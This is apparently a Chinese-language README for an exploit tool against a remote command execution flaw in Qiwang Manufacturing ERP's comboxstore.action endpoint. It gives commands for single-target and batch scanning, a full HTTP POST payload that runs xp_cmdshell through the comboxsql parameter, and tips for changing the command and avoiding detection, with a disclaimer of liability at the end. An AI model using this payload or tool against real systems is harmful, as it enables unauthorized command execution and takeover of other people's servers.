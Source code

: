 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者可以利用该漏洞获取服务器权限

## 工具利用

python3 QiwangERP_RCE.py -u http://127.0.0.1:1111 单个url测试

python3 QiwangERP_RCE.py -f url.txt 批量检测

![](./poc.jpg)

## exp利用

将脚本流量转发到burp

修改comboxsql参数执行其他命令
```
POST /mainFunctions/comboxstore.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.96.7 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 41

comboxsql=exec%20xp_cmdshell%20'net+user'
```
![](./exp.jpg)

tips:

1、命令中的空格需要url编码或者用 + 等符号替换；

2、如果一开始可以执行命令到后边突然执行不了了大概率是被行为检测到给ban了。

## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
